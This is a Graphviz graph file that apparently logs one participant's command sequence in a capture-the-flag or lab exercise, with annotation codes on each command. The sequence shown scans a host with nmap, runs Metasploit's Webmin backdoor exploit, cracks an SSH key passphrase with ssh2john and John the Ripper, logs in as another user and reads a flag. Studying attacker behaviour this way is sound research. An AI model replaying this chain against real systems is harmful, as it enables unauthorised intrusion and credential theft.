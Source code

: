 // creating graph for user: 73
digraph {
	node [shape=box]
	0 [label="nmap -A 172.18.1.5 M0 "]
	1 [label="msf U"]
	2 [label="metasploit U"]
	3 [label="msfconsole M2 "]
	4 [label="search webmin 1.920 M3 "]
	5 [label="search cve:2019-15107 U"]
	6 [label="use exploit/unix/webapp/webmin_backdoor M8 "]
	7 [label="show options M5 "]
	8 [label="set TARGETURI=172.18.1.5:10000 A6 "]
	9 [label="set TARGETURI 172.18.1.5:10000 A6 "]
	10 [label="run U"]
	11 [label="show options U"]
	12 [label="set TARGETURI / A6 "]
	13 [label="set RHOST 172.18.1.5 A6 "]
	14 [label="run U"]
	15 [label="set LHOST 0.0.0.0 M6 "]
	16 [label="run U"]
	17 [label="show options U"]
	18 [label="search edb:47230 U"]
	19 [label="search webmin U"]
	20 [label="banner U"]
	21 [label="info U"]
	22 [label="connect U"]
	23 [label="run U"]
	24 [label="show options U"]
	25 [label="set LHOST 10.1.135.83 U"]
	26 [label="run U"]
	27 [label="ls A10 "]
	28 [label="pwd U"]
	29 [label="ls A10 "]
	30 [label="ls A10 "]
	31 [label="cat ssh2john.py A1 A9 A11 A12 A14 A16 A17 "]
	32 [label="python ssh2john.py M13 "]
	33 [label="connect U"]
	34 [label="touch r.txt U"]
	35 [label="cp /tmp.r.txt rsa_d U"]
	36 [label="ls A10 "]
	37 [label="python ssh2john.py rsa_d A14 A16 "]
	38 [label="python ssh2john.py rsa_d > john_rsa A14 A16 "]
	39 [label="john john_rsa A14 "]
	40 [label="john rsa_d A14 "]
	41 [label="john john_rsa A14 "]
	42 [label="python ssh2john.py /tmp.k > rsa2 A14 A16 "]
	43 [label="cat rsa_d A1 A9 A11 A12 A17 "]
	44 [label="john ---h A14 "]
	45 [label="john -h A14 "]
	46 [label="ls A10 "]
	47 [label="ls Documents/m A10 "]
	48 [label="ls Documents/ A10 "]
	49 [label="ls Documents/ -laR A10 "]
	50 [label="ls A10 "]
	51 [label="john john_rsa --wordlist /usr/share/wordlists/rockyou.txt M14 "]
	52 [label="john --show U"]
	53 [label="ls A10 "]
	54 [label="john rsa_d --show U"]
	55 [label="ls A10 "]
	56 [label="ls fasttrack.txt A10 "]
	57 [label="ls -l A10 "]
	58 [label="john john_rsa --wordlist /usr/share/wordlists/rockyou.txt.gz U"]
	59 [label="john john_rsa --wordlist /usr/share/wordlists/rockyou.txt U"]
	60 [label="tar -xvf rockyou.txt.gz U"]
	61 [label="head rockyou.txt A9 A11 A12 A17 "]
	62 [label="john rsa2 --wordlist /usr/share/wordlists/rockyou.txt U"]
	63 [label="ls A10 "]
	64 [label="john john_rsa U"]
	65 [label="john john_rsa --wordlist /usr/share/wordlists/rockyou.txt U"]
	66 [label="john john_rsa --wordlist /usr/share/wordlists/rockyou.txt U"]
	67 [label="john U"]
	68 [label="john john_rsa --wordlist /usr/share/wordlists/rockyou.txt --show U"]
	69 [label="john john_rsa --wordlist /usr/share/wordlists/rockyou.txt --show=left U"]
	70 [label="john john_rsa --wordlist /usr/share/wordlists/rockyou.txt --show=right U"]
	71 [label="john john_rsa --show --wordlist /usr/share/wordlists/rockyou.txt U"]
	72 [label="john --wordlist /usr/share/wordlists/rockyou.txt john_rsa U"]
	73 [label="john --wordlist /usr/share/wordlists/rockyou.txt john_rsa --show U"]
	74 [label="john --wordlist /usr/share/wordlists/rockyou.txt john_rsa U"]
	75 [label="less rockyou.txt A9 A11 A12 A17 "]
	76 [label="john --wordlist /usr/share/wordlists/rockyou.txt john_rsa --format=SSH U"]
	77 [label="ls A10 "]
	78 [label="john --wordlist /usr/share/wordlists/rockyou.txt rsa_d --format=SSH U"]
	79 [label="john --wordlist /usr/share/wordlists/rockyou.txt rsa2 --format=SSH U"]
	80 [label="john --wordlist /usr/share/wordlists/rockyou.txt rsa_d --format=SSH U"]
	81 [label="john --wordlist /usr/share/wordlists/rockyou.txt john_rsa --format=SSH U"]
	82 [label="john --show U"]
	83 [label="john --show john_rsa U"]
	84 [label="python ssh2john.py r.txt > rsa3 A16 "]
	85 [label="john --wordlist /usr/share/wordlists/rockyou.txt john_rsa --format=SSH --verbose U"]
	86 [label="john U"]
	87 [label="john --wordlist /usr/share/wordlists/rockyou.txt john_rsa --format=SSH --verbose U"]
	88 [label="john --wordlist /usr/share/wordlists/rockyou.txt john_rsa --format=SS U"]
	89 [label="john --wordlist /usr/share/wordlists/rockyou.txt john_rsa --format=SSH U"]
	90 [label="john --wordlist /usr/share/wordlists/rockyou.txt john_rsa --format=SSH U"]
	91 [label="less rockyou.txt A9 A11 A12 A17 "]
	92 [label="john --wordlist /usr/share/wordlists/rockyou.txt john_rsa U"]
	93 [label="show rsa_ U"]
	94 [label="show rsa_d U"]
	95 [label="john --show rsa_d U"]
	96 [label="python ssh2john.py /tmp/id_rsa hash A16 "]
	97 [label="python ssh2john.py /tmp/id_rsa > hash A16 "]
	98 [label="john --wordlist /usr/share/wordlists/rockyou.txt hash U"]
	99 [label="john --wordlist /usr/share/wordlists/rockyou.txt hash --rules U"]
	100 [label="john --show hash U"]
	101 [label="john --wordlist /usr/share/wordlists/rockyou.txt hash --rules U"]
	102 [label="john --wordlist=all.lst hash A10 "]
	103 [label="sudo john U"]
	104 [label="john --show hash --format=SSH U"]
	105 [label="john --wordlist /usr/share/wordlists/rockyou.txt hash --rules U"]
	106 [label="john --show hash --format=SSH U"]
	107 [label="john --wordlist /usr/share/wordlists/rockyou.txt hash U"]
	108 [label="john --show hash --format=SSH U"]
	109 [label="john --wordlist /usr/share/wordlists/rockyou.txt hash U"]
	110 [label="ls A10 "]
	111 [label="echo '!hellokitty!!' > wl.txt U"]
	112 [label="john --wordlist wl.txt hash U"]
	113 [label="ls A10 "]
	114 [label="john --show hash U"]
	115 [label="echo -n '!hellokitty!!' > wl.txt U"]
	116 [label="john --wordlist wl.txt hash U"]
	117 [label="john --show hash U"]
	118 [label="john --show --format=SSH                             hash U"]
	119 [label="cat /tmp/id_rsa M12 "]
	120 [label="python ssh2john.py /tmp/id_rsa A16 "]
	121 [label="ssh-add /tmp/id_rsa A16 "]
	122 [label="ssh-add id_rsa A16 "]
	123 [label="la U"]
	124 [label="ls -la A10 "]
	125 [label="python ssh2john.py id_rsa > hash A16 "]
	126 [label="john --wordlist /usr/share/wordlists/rockyou.txt U"]
	127 [label="john --show id_rsa U"]
	128 [label="john --show hash U"]
	129 [label="john --wordlist /usr/share/wordlists/rockyou.txt hash U"]
	130 [label="john --show hash U"]
	131 [label="john --wordlist /usr/share/wordlists/rockyou.txt --fork 4 hash U"]
	132 [label="john --wordlist /usr/share/wordlists/rockyou.txt --fork=4 hash U"]
	133 [label="john --wordlist=/usr/share/wordlists/rockyou.txt --fork=4 hash U"]
	134 [label="ssh-add id_rsa A16 "]
	135 [label="ssh eve@10.1.17.4 M16 "]
	136 [label="cp id_rsa .ssh/id_rsa U"]
	137 [label="ssh eve@10.1.17.4 U"]
	138 [label="ls A10 "]
	139 [label="ls -a A10 "]
	140 [label="chown 0044 U"]
	141 [label="chown 0044 id_rsa U"]
	142 [label="ssh-add id_rsa U"]
	143 [label="ssh eve@10.1.17.4 U"]
	144 [label="ls A10 "]
	145 [label="cd top-secret/ U"]
	146 [label="ls A10 "]
	147 [label="cat flag A1 A9 A11 A17 "]
	148 [label="cat flag.txt M17 "]
	0 -> 1 [constraint=false]
	1 -> 2 [constraint=false]
	2 -> 3 [constraint=false]
	3 -> 4 [constraint=false]
	4 -> 5 [constraint=false]
	5 -> 6 [constraint=false]
	6 -> 7 [constraint=false]
	7 -> 8 [constraint=false]
	8 -> 9 [constraint=false]
	9 -> 10 [constraint=false]
	10 -> 11 [constraint=false]
	11 -> 12 [constraint=false]
	12 -> 13 [constraint=false]
	13 -> 14 [constraint=false]
	14 -> 15 [constraint=false]
	15 -> 16 [constraint=false]
	16 -> 17 [constraint=false]
	17 -> 18 [constraint=false]
	18 -> 19 [constraint=false]
	19 -> 20 [constraint=false]
	20 -> 21 [constraint=false]
	21 -> 22 [constraint=false]
	22 -> 23 [constraint=false]
	23 -> 24 [constraint=false]
	24 -> 25 [constraint=false]
	25 -> 26 [constraint=false]
	26 -> 27 [constraint=false]
	27 -> 28 [constraint=false]
	28 -> 29 [constraint=false]
	29 -> 30 [constraint=false]
	30 -> 31 [constraint=false]
	31 -> 32 [constraint=false]
	32 -> 33 [constraint=false]
	33 -> 34 [constraint=false]
	34 -> 35 [constraint=false]
	35 -> 36 [constraint=false]
	36 -> 37 [constraint=false]
	37 -> 38 [constraint=false]
	38 -> 39 [constraint=false]
	39 -> 40 [constraint=false]
	40 -> 41 [constraint=false]
	41 -> 42 [constraint=false]
	42 -> 43 [constraint=false]
	43 -> 44 [constraint=false]
	44 -> 45 [constraint=false]
	45 -> 46 [constraint=false]
	46 -> 47 [constraint=false]
	47 -> 48 [constraint=false]
	48 -> 49 [constraint=false]
	49 -> 50 [constraint=false]
	50 -> 51 [constraint=false]
	51 -> 52 [constraint=false]
	52 -> 53 [constraint=false]
	53 -> 54 [constraint=false]
	54 -> 55 [constraint=false]
	55 -> 56 [constraint=false]
	56 -> 57 [constraint=false]
	57 -> 58 [constraint=false]
	58 -> 59 [constraint=false]
	59 -> 60 [constraint=false]
	60 -> 61 [constraint=false]
	61 -> 62 [constraint=false]
	62 -> 63 [constraint=false]
	63 -> 64 [constraint=false]
	64 -> 65 [constraint=false]
	65 -> 66 [constraint=false]
	66 -> 67 [constraint=false]
	67 -> 68 [constraint=false]
	68 -> 69 [constraint=false]
	69 -> 70 [constraint=false]
	70 -> 71 [constraint=false]
	71 -> 72 [constraint=false]
	72 -> 73 [constraint=false]
	73 -> 74 [constraint=false]
	74 -> 75 [constraint=false]
	75 -> 76 [constraint=false]
	76 -> 77 [constraint=false]
	77 -> 78 [constraint=false]
	78 -> 79 [constraint=false]
	79 -> 80 [constraint=false]
	80 -> 81 [constraint=false]
	81 -> 82 [constraint=false]
	82 -> 83 [constraint=false]
	83 -> 84 [constraint=false]
	84 -> 85 [constraint=false]
	85 -> 86 [constraint=false]
	86 -> 87 [constraint=false]
	87 -> 88 [constraint=false]
	88 -> 89 [constraint=false]
	89 -> 90 [constraint=false]
	90 -> 91 [constraint=false]
	91 -> 92 [constraint=false]
	92 -> 93 [constraint=false]
	93 -> 94 [constraint=false]
	94 -> 95 [constraint=false]
	95 -> 96 [constraint=false]
	96 -> 97 [constraint=false]
	97 -> 98 [constraint=false]
	98 -> 99 [constraint=false]
	99 -> 100 [constraint=false]
	100 -> 101 [constraint=false]
	101 -> 102 [constraint=false]
	102 -> 103 [constraint=false]
	103 -> 104 [constraint=false]
	104 -> 105 [constraint=false]
	105 -> 106 [constraint=false]
	106 -> 107 [constraint=false]
	107 -> 108 [constraint=false]
	108 -> 109 [constraint=false]
	109 -> 110 [constraint=false]
	110 -> 111 [constraint=false]
	111 -> 112 [constraint=false]
	112 -> 113 [constraint=false]
	113 -> 114 [constraint=false]
	114 -> 115 [constraint=false]
	115 -> 116 [constraint=false]
	116 -> 117 [constraint=false]
	117 -> 118 [constraint=false]
	118 -> 119 [constraint=false]
	119 -> 120 [constraint=false]
	120 -> 121 [constraint=false]
	121 -> 122 [constraint=false]
	122 -> 123 [constraint=false]
	123 -> 124 [constraint=false]
	124 -> 125 [constraint=false]
	125 -> 126 [constraint=false]
	126 -> 127 [constraint=false]
	127 -> 128 [constraint=false]
	128 -> 129 [constraint=false]
	129 -> 130 [constraint=false]
	130 -> 131 [constraint=false]
	131 -> 132 [constraint=false]
	132 -> 133 [constraint=false]
	133 -> 134 [constraint=false]
	134 -> 135 [constraint=false]
	135 -> 136 [constraint=false]
	136 -> 137 [constraint=false]
	137 -> 138 [constraint=false]
	138 -> 139 [constraint=false]
	139 -> 140 [constraint=false]
	140 -> 141 [constraint=false]
	141 -> 142 [constraint=false]
	142 -> 143 [constraint=false]
	143 -> 144 [constraint=false]
	144 -> 145 [constraint=false]
	145 -> 146 [constraint=false]
	146 -> 147 [constraint=false]
	147 -> 148 [constraint=false]
	rankdir=LR
}
